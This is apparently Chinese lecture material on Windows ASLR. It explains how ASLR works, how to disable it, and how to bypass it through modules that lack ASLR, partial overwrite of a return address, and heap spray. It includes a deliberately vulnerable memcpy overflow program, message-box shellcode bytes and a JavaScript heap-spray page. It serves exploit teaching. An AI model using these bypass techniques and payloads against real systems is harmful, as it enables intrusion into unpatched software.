






# 第10讲 Windows安全机制3——ASLR

## 内存随机化保护机制的原理 

纵观前面介绍的所有漏洞利用方法都有着一个共同的特征：都需要确定一个明确的跳转地址。无论是 JMP ESP 等通用跳板指令还是 Ret2Libc 使用的各指令，我们都要先确定这条指令的入口点。所谓惹不起躲得起，微软的 ASLR（Address Space Layout Randomization）技术就是通过加载程序的时候不再使用固定的基址加载，从而干扰 shellcode 定位的一种保护机制。

实际上 ASLR 的概念在 Windows XP 时代就已经提出来了，只不过 XP 上面的 ASLR 功能很有限，只是对 PEB 和 TEB 进行了简单的随机化处理，而对于模块的加载基址没有进行随机化处理，直到 Windows Vista 出现后，ASLR 才真正开始发挥作用。

与 SafeSEH 类似 ASLR 的实现也需要程序自身的支持和操作系统的双重支持，其中程序的支持不是必需的，稍后我们会说明。支持ASLR的程序在它的PE头中会设置```IMAGE_DLL_CHARACTERISTICS_ DYNAMIC_BASE```标识来说明其支持 ASLR。微软从 Visual Studio 2005 SP1 开始加入了/dynamicbase 链接选项来帮我们完成这个任务，我们只需要在编译程序的时候启用/dynmicbase 链接选项，编译好的程序就支持 ASLR 了。



上图中右下方的0040即标识该程序支持映像随机化的ASLR。

Visual Studio 2008 (VS 9.0)中，可以在通过菜单中的 Project→project Properties→Configuration Pr operties→Linker→Advanced→Randomized Base Address 选项对 /dynmicbase 链接选项进行设置，如图。


我们前面提到 ASLR 在 Windows Vista 之后的操作系统上才真正的发挥作用，它包含了映像随机化、堆栈随机化、PEB 与 TEB 随机化，接下来我们看看每一项的细节。

### 映像随机化（Image Randomize）
映像随机化是在 PE 文件映射到内存时，对其加载的虚拟地址进行随机化处理，这个地址是在系统启动时确定的，系统重启后这个地址会变化。我们以 IE 为例来看看 Windows Vista 开启 ASLR 后各模块加载的微妙之处。我们用 OllyDbg 加载 IE 并记录其加载模块的地址，然后重启系统后再记录一次，如下图所示 IE 的各加载模块基址在系统重启会是变化的。


可能是出于兼容性的考虑，微软在系统中设置了映像随机化的开关，用户可以通过设置注册表中 ```HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\MoveImages``` 的键值来设定映像随机化的工作模式。
- 设置为 0 时映像随机化将禁用。
- 设置为 −1 时强制对可随机化的映像进行处理，无论是否设置 ```IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE``` 标识。
- 设置为其他值时为正常工作模式，只对具有随机化处理标识的映像进行处理。

如果注册表中不存在 MoveImages，大家可以手工建立名称为 MoveImages，类型为 DWORD 的值，并根据需要设置它的值，如图 13.1.3 所示。


### 堆栈随机化

这项措施是在程序运行时随机的选择堆栈的基址，与映像基址随机化不同的是堆栈的基址不是在系统启动的时候确定的，而是在打开程序的时候确定的，也就是说同一个程序任意两次运行时的堆栈基址都是不同的，进而各变量在内存中的位置也就是不确定的。

我们通过如下代码简单的测试一下堆栈随机化对变量在内存位置的影响，我们分别在堆和栈上各申请 100 个字节的空间，然后在 Windows XP 和 Windows Vista 下面各运行两次，来比较变量在内存中起始位置的情况。

```c
int_t main(int argc, _TCHAR* argv[])
{
    char * heap=(char *)malloc(100);
    char stack[100];
    printf("Address of heap:%#0.4x\nAddress of stack:%#0.4x",heap, stack);
    getchar();
    return 0;
} 
```
运行结果如下图所示，在不具备堆栈随机化的 XP 上面两次申请空间的起始地址完全相同，而在 Vista 上面两次申请空间的起始地址相差甚远。


### PEB 与 TEB 随机化
PEB 与 TEB 随机化在 Windows XP SP2 中就已经引入了，微软在 XP SP2 之后不再使用固定的 PEB 基址 0x7FFDF000 和 TEB 基址 0x7FFDE000，而是使用具有一定随机性的基址，这就增加了攻击 PEB 中的函数指针的难度。覆盖 PEB 中函数指针的利用方式请参见“堆溢出利用（下）”中的实验的相关介绍。

获取当前进程的 TEB 和 PEB 很简单，TEB 存放在 FS:0 和 FS:[0x18]处，PEB 存放在 TEB 偏移 0x30 的位置，可以通过如下代码来获取当前进程的 TEB 和 PEB。

编译好程序后，运行多次以查看 PEB 和 TEB 的情况，运行结果如下图所示。从图中我们不难看出 PEB 和 TEB 的随机效果不是很好。


ASLR 的出现使得 shellcode 中的关键跳转只能在系统重启前，甚至只有程序的本次运行时才能执行，这使得 exploit 的难度大大增加。道高一尺，魔高一丈，任何一种保护技术都有一些自身的弱点，攻击者已经用事实告诉人们 ASLR 不是不可以突破的。

首先我们来看看 ASLR 中最重要的部分——映像随机化。由于 ASLR 将所有受保护模块的加载基址都做了随机化处理，我们**以前找到的通用跳板指令的地址也就不再固定**，这些指令也就失去了意义。但这个随机过程是不是完美无疵的呢？答案是否定的，细心的读者在看基址加载地址不同的图片时候会发现一个现象，虽然模块的加载基址变化了，但是各模块的入口点（Entry 那列）地址的低位 2 个字节是不变的，也就是说**映像随机化只是对加载基址的前 2 个字节做了随机处理**。

例如，某个模块的入口地址为 0x12345678，那么系统重启的它的入口地址可能会变为0x43215678，地址的前 2 个字节是随机的，而后两个字节 0x5678 是固定的。这就给我们留下了一点点机会，此处暂且按住不表，带到稍后在“利用部分覆盖定位内存地址”一节中再详细说明。

然后再来看看ASLR中的堆栈随机化。**堆栈随机化将每个线程的堆栈基址都做了随机化处理，使得程序每次运行时变量的地址都不相同**。这样处理之后的好处是可以防止精准攻击，例如我们需要根据 shellcode 的起始地址直接跳转到 shellcode 执行，**但是自从 JMP ESP 跳板指令开始使用后溢出时很少直接跳到 shellcode 中执行了；另外在浏览器攻击方面很流行的 heap spray 等技术，这些技术也是不需要精准跳转的，只需要跳转到一个大概的位置即可。所以这项措施对于目前的溢出手段影响有限**。

最后我们来看看 PEB 和 TEB 的随机化。如前所述，**PEB 和 TEB 的随机化随机化程度实在不敢恭维，而且即便做到了完全随机，依然还是可以通过其他方法获取到当前进程的 PEB 和 TEB**。


## 如何关闭 ASLR

关闭ASLR只需要在添加了一个DWORD键值项```HKLM\System\CurrentControlSet\Control\SESSION MANAGER\MEMORY MANAGEMENT\MoveImages```，其值为0。然后重启电脑就行了。而恢复ASLR只需要删掉这个MoveImages键。


如果有源码可编译，那么可以通过编译工具入手。若不想使用ASLR功能，可以在VS编译的时候将“配置属性->链接器->高级->随机基址”的值修改为否即可。

如果没有源码，那么这个时候我们可以通过Stud-PE或winhex等修改pe头中可选头的 DllCharacteristics 来达成我们的目的。



将 DllCharacteristics 值8140改为8100，可以看到其基址变回我们熟悉的0×400000了。


## 攻击未启用 ASLR 的模块 

ASLR 仅仅是项安全机制，不是什么行业标准，不支持 ASLR 的软件有很多。不支持 ASLR 意味着加载基址固定，如果我们能够在当前进程空间中找到一个这样的模块，就可以利用它里边的指令来做跳板了，直接无视 ASLR。
这样的模块还不难找，就有一个摆在我们面前，这个模块就是大名鼎鼎的 Adobe Flash Player ActiveX。

>在 IE 广泛启用安全机制后的相当一段时间，Flash Player ActiveX 并未支持SafeSEH，ASLR 等新特性，作为浏览器应用最为广泛的插件之一，为广大黑客及技术爱好者们提供了一个不错的切入点，可谓人见人爱，花见花开。Adobe 在 Flash Player 10 以后的版本中开始全面支持微软的安全特性。

本次实验我们使用 Flash Player ActiveX 9.0.262 做演示，我们先来确定一下这个 Flash Player 是不是真的不支持 ASLR。首先我们用 IE 打开一个含有 Flash 的 Web 页面，然后用 OllyDbg 附加 IE 的进程，通过 OllyFindAddr 插件中的 Unprotected m odules->Without ASLR 来查找当前进程中未启用 ASLR 的模块。通过搜索结果可以看到 Flash Player 确实没有启用 ASLR，如图 13.2.1 所示。


## 利用部分覆盖进行定位内存地址

前边分析过，映像随机化只是对映像加载基址的前 2 个字节做随机化处理，这样做的后果是什么呢？

试想一下，无论是函数的返回地址，还是异常处理函数的指针，或者是虚函数表指针都是要存放到堆栈中的，虽然保存的地址是经过随机处理之后的地址，但是也仅仅是前 2 个字节的随机化。如果我们借鉴“off by one”的思想，只覆盖这个地址的最后一个字节，或者最后两个字节，那么我们不就可以在一定范围内控制程序了吗？

例如，0x12345678 为函数的返回地址，0x1234 部分是随机的我们不去管它，反正系统会帮我们放到堆栈中，但 0x5678 的部分是固定的，那么我们只覆盖它的最后两个字节。如果通过 memcpy 类的函数攻击的话就可以将这个返回控制为 0x12340000~0x1234FFFF 中的任意一个；如果通过 strcpy 类函数攻击，因为这类函数会在复制结束后自动添加 0x00，所以我们可以
控制的地址为 0x12345600 和 0x12330000~0x123400FF 地址范围中的任意一个。

之所以能够利用部分覆盖的方法绕过 ASLR 的另外一个原因是因为 **ASLR 只是随机化了映像的加载基址，而没有对指令序列进行随机化**。比如说我们当前程序的 0x12346789 的位置找到了一个跳板指令，那么系统重启之后这个跳板指令的地址可能会变为 0x21346789，也就是说这个执行相对于基址的位置是不变的。这就让利用部分覆盖过 ASLR 成为了可能，如果我们能够在合适的位置找到合适的跳板指令就可以绕过 ASLR 了。


我们通过以下代码来介绍和分析部分覆盖的技巧。

```c
#include"stdio.h"
#include"tchar.h"
#include<Windows.h>
#include"stdlib.h"

char shellcode[]=
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"бнбн"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
	"бнбн"
	"\x90\x90\x90\x90"
	"\x2A\x23"
	;
char * test()
{
 char tt[256];
 memcpy(tt,shellcode,262);
 return tt;
}
int _tmain(int argc, _TCHAR* argv[])
{
 char temp[200];
 test();
 return 0;
} 
```

对实验思路和代码简要解释如下。
- 为了更直观地反映绕过 ASLR 的过程，本次实验编译的程序不启用 GS。
- 编译程序时禁用 DEP。
- test 函数中存在一个典型的溢出漏洞，通过复制超长字符串可以覆盖函数返回地址。
- 复制结束后，test 函数返回 tt 字符数组的首地址。
- 我们在相对程序加载基址 0x0000~0xFFFF 的范围内，找到一条跳板指令，并用它地址的后 2 个字节覆盖返回地址的后两个字节。
- 采用这种类似“相对寻址”的方法来动态确定跳板指令的地址，以实现跳板指令的通用性。

> 题外话：test 函数返回的 tt 字符数组的首地址是没有实际意义的，因为 tt 的空间是在栈上的，程序从 test 函数返回后 tt 字符数组所在的空间就会被释放。这样的返回是很危险的，后续操作很可能会破坏程序的数据。我们在这只是为了方便演示，大家在编程的时候一定要注意这个问题。

实验环境如下表所示。
- 操作系统： Windows Vista SP0
- DEP 状态： Optin Vista 默认状态
- 编译器： Visual Studio 2008
- 优化选项： 禁用优化选项
- GS 选项： GS 关闭
- DEP 选项： /NXCOMP AT:NO
- build 版本： release 版本 


首先需要计算填充多少个字节才能覆盖到返回地址，这里不再赘述计算过程。通过计算我们发现复制字符串长度超过 260 个字节时就会覆盖返回地址，所以我们可以使用 261~262 这两个字节来覆盖返回地址的后两位。

先把 shellcode 设置为 262 个字节的 0x90，并将 memcpy 函数的中的复制长度设置为 262，然后编译程序并用 OllyDbg 加载程序。等待 OllyDbg 加载完成后我们在 test 函数的返回前下断点，然后按 F9 键让程序运行，程序中断后观察内存状态。

如图 13.3.1 所示，函数返回地址的后两个字节已经被覆盖为 0x90 了，说明部分覆盖的基本条件已经具备。接下来就是寻找一条合适的跳板指令，由于是部分覆盖，所以 shellcode 只能放置在返回地址的前面，这样的话 JMP ESP 指令就不能再使用了。我们需要一条往低地址方向跳的指令，观察寄存器发现只有 EAX 符合要求，EAX 指向 tt 的起始地址，所以只要在当前内
存范围内找到条 CALL/JMP EAX 的指令就可以跳转到 shellcode 中执行了。



再次请出我们的 OllyFindAddr 插件，通过 Overwrite return address→Find CALL/JMP EAX 选项来查找 CALL/JMP E AX 指令。搜索结果一般有很多条，这里只关心 ASLR_Offbyone.exe 中的指令，因为只有它里边的指令才有可能控制。为了确保跳板指令绝对可靠，先查找一次，然后重启系统后再查找一次，通过两次结果的对比来确定最终的跳板指令地址。

如图 13.3.2 所示，这些指令地址的后 2 个字节在系统重启前后没有变化，也这符合 ASLR 的映像随机机制。本次这些指令大家都可以用，本次实验我们选择 0x****232A 的 JMP EAX 作为跳板指令。



跳板指令找到了，接下来开始布置 shellcode。Shellcode 最开始部分为弹出对话框的机器码，然后是 0x90 填充，最后为用来覆盖返回地址后 2 个字节的 0x232A。shellcode 布局如图 13.3.3
所示。



最终的 shellcode 代码如下所示。

```c
char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x2A\x23"

```

用布置好的 shellcode 替换原来的 0x90 填充，然后编译程序并运行，就可以看到 shellcode 成功执行了，如图 13.3.4 所示。即使是重启系统，shellcode 依然可以成功执行。

## 利用 Heap spray 技术定位内存地址 

如果我说 N 年前出现的一种技术可以直接无视 ASLR 您会相信吗？无论相信与否，确实存在这样的一项技术，它就是 Heap spray。大家不要奇怪，Heap spray 本来就是为了应对堆空间随机分配的问题产生的，ASLR 本质也是随机化处理，所以直接使用 Heap spray 绕过 ASLR 一点都不过分。

大家应该还记得的 Heap spray 的原理吧，通过申请大量的内存，占领内存中的 0x0C0C0C0C 的位置，并在这些内存中放置 0x90 和 shellcode，最后控制程序转入 0x0C0C0C0C 执行。只要运气不要差到 0x0C0C0C0C 刚好位于 shellcode 中的某个位置，shellcode 就可以成功执行。

大家可能会有所顾虑，因为 ASLR 对堆基址做了随机化处理，如果它将堆基址随机到 0x0C0C0C0C 之后怎么办？事实上这种情况不会发生。我们可以通过如下测试来消除大家的疑虑：构造一个通过 JavaScript 申请大量空间的页面，通过多次运行对比其空间分配情况。页面代码如下所示。

```html
<html>
<script>
	var nops = unescape("%u9090%u9090");//unescape() 函数可对通过 escape() 编码的字符串进行解码。
	while (nops.length < 0x100000/2)
		nops += nops;
	nops=nops.substring(0,0x100000/2-32/2-4/2-2/2-2);
	nops=unescape("%u8281%u8182")+nops;
	
	var memory = new Array();
	for (var i=0;i<200;i++)
		memory[i] += nops;
</script>
</html> 
```

> 说明：unescape（）函数的工作原理是这样的：通过找到形式为 %xx 和 %uxxxx 的字符序列（x 表示十六进制的数字），用 Unicode 字符 \u00xx 和 \uxxxx 替换这样的字符序列进行解码。
> 注释：ECMAScript v3 已从标准中删除了 unescape() 函数，并反对使用它，因此应该用 decodeURI() 和 decodeURIComponent() 取而代之。


我们利用 JS 申请 200 个 1MB 的内存块，观察这些内存块起始地址的变化情况。为了便于确定内存块的起始位置，我们在内存块的开始位置放置 0x81828281，然后通过查找 0x81828281来确定每个内存块的起始位置。

使用 IE7 打开设置好的页面，页面加载完成后，用 OllyDbg 附加 IE 进程，并在内存中查找 0x81828281，注意记录内存块的起始位置，重启系统再进行相同的操作。现在来对比两次内存块分配地址情况，如图 13.4.1 所示，虽然每次的起始地址都会变化，但是第一个内存块始终
在内存低地址徘徊，也就是说利用 Heap spray 绕过 ASLR 具备了理论基础。



由于 Heap spray 是针对浏览器的，所以我们依然通过攻击 ActiveX 控件来演示如何利用 Heap spray 绕过 ASLR，ActiveX 控件仍然选择前面其他演示中已经使用过的 VulnerAX.ocx。将前面演示用的 Heap spray 代码换成含有 shellcode 的代码以构建 POC 页面，具体 POC 页面代码如下所示。